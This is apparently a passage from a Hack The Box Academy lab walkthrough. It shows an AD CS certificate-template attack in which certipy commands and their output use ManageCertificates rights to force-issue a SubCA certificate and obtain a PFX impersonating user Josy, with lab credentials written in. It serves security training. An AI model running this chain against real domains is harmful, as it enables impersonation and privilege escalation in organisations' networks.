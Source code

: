 Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template SubCA -upn Josy
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template SubCA -upn Josy

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 63
Would you like to save the private key? (y/N) y
[*] Saved private key to 63.key
[-] Failed to request certificate
```

Regardless of the CA refusing to enroll the user `Josy` for the `SubCA` template, students need to abuse the `ManageCertificates` rights that `blwasp` possesses to issue the certificate, circumventing the conditions of only `Domain Admins` or `Enterprise Admins` being able to enroll; students need to the use `ca` command of `certipy`, specifying the `Request ID` previously attained for the `-issue-request` option:

Code: shell

```shell
certipy ca -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -issue-request 63
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy ca -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -issue-request 63

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

After that, students need to abuse the `ManageCertificates` rights that `blwasp` possesses to retrieve the issued certificate; students need to use the `req` command of `certipy`, specifying the `Request ID` previously attained for the `-retrieve` option to attain a `PFX` certificate for the `Josy` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -retrieve 63
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -retrieve 63

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 63
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'Josy'
[*] Certificate has no object SID
[*] Loaded private key from '63.key'
[*] Saved certificate and private key to 'josy.pfx'
```
